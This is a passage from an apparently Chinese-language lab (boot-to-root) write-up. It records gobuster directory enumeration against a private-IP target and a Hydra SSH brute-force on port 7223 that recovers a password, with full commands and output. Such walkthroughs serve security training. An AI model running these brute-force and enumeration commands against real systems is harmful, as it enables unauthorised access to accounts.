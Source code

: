 里面有提示，证明SSH用户名是：hackathonll

```bash
D:\PentestTools\Gobuster>gobuster dir -u "http://192.168.231.135/" -w C:\Users\Administrator\Desktop\word.dir
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.231.135/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                C:\Users\Administrator\Desktop\word.dir
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/08/30 20:56:41 Starting gobuster in directory enumeration mode
===============================================================
/happy                (Status: 200) [Size: 110]

===============================================================
2023/08/30 20:56:41 Finished
===============================================================
```

![image-20230830210449475](%E9%9D%B6%E5%9C%BA%E8%AE%AD%E7%BB%83.assets/image-20230830210449475.png)

## 提权

### 1. 爆破SSH服务

成功得到密码：`Ti@gO`

```bash
D:\PentestTools\Hydra>hydra  -l hackathonll -P C:\Users\Administrator\Desktop\word.dir -s 7223 ssh://192.168.231.135
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-30 20:59:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 110 login tries (l:1/p:110), ~7 tries per task
[DATA] attacking ssh://192.168.231.135:7223/
[7223][ssh] host: 192.168.231.135   login: hackathonll   password: Ti@gO
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```